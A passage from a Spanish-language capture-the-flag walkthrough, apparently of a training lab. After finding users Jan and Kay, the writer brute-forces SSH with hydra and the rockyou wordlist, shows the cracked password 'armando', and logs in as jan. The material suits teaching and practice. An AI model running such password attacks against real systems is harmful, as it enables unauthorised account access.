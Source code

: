Ya encontramos los nombre de los usuarios:

 - Jan
 - Kay

Ahora si, podríamos tratar de acceder al servicios SSH y realizar un ataque de fuerza bruta. Vamos a probar primero con el usuario **Jan**, además de que en las notas encontradas vía web nos dicen que cuenta con una contraseña débil:

```bash
❯ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.228.37
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-17 18:09:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.228.37:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 112.67 tries/min, 338 tries in 00:03h, 14344063 to do in 2121:55h, 16 active
[22][ssh] host: 10.10.228.37   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-17 18:15:58
```

Ya tenemos las credenciales del usuario **jan**, por lo que vamos a acceder vía ssh:

```bash
❯ ssh jan@10.10.228.37
The authenticity of host '10.10.228.37 (10.10.228.37)' can't be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.228.37' (ECDSA) to the list of known hosts.
jan@10.10.228.37's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```